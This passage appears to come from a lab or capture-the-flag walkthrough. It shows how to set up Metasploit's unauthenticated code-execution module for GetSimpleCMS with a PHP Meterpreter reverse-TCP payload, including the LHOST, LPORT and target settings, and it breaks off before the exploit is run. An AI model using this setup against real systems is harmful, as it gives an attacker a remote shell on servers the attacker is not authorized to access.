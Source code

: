 ```bash
3: tun0: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UNKNOWN group default qlen 500
    link/none 
    inet 10.10.14.115/23 scope global tun0
```
The `inet` address up until the `/` will be our NIC address and should therefore be set with the following command.

`> set LHOST 10.10.14.115`

You can also simply specify your interface name like tun0, eth0, etc instead of your IP address.

As you may figure, LPORT is the port on our host that's to be used. We can usually leave this on the default option so let's leave it on `4444`. 

If we do the following command again, we will see that our settings have all been changed to our desired options.

`> show options`

```bash
Module options (exploit/multi/http/getsimplecms_unauth_code_exec):                                                                                    
                                                                                                                                                      
   Name       Current Setting  Required  Description                                                                                                  
   ----       ---------------  --------  -----------                                                                                                  
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]                                                 
   RHOSTS     10.129.42.249    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit                 
   RPORT      80               yes       The target port (TCP)                                                                                        
   SSL        false            no        Negotiate SSL/TLS for outgoing connections                                                                   
   TARGETURI  /                yes       The base path to the cms                                                                                     
   VHOST                       no        HTTP server virtual host                                                                                     
                                                                                                                                                      
                                                                                                                                                      
Payload options (php/meterpreter/reverse_tcp):                                                                                                        

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.115     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   GetSimpleCMS 3.3.15 and before

```
Everything looks good to go, so let's move on to the moment we've **ALL** been waiting for: using the exploit.
## Using the GetSimpleCMS Exploit
Before running the exploit, we should run the following command to ensure that our exploit works against the machine.

